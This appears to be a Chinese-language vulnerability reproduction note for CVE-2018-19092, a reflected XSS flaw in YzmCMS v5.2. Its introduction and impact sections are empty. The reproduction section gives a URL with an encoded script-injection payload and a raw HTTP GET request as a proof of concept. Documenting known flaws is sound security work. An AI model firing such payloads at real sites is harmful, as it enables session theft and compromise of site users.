```yaml
---
title: （CVE-2018-19092）YzmCMS v5.2 xss漏洞
id: zhfly3306
---
```


# （CVE-2018-19092）YzmCMS v5.2 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html

XSS payload: [http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1](http://192.168.1.40/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22>alert(1)<%2fscript>r6qt2=1)

POC:

```
GET /search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1 HTTP/1.1
Host: www.0-sec.org
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.1.40/search/index/archives/pubtime/1526387722.html
Cookie: PHPSESSID=u0bh5qnr84qsu9aa0oj8vpkuk2 
```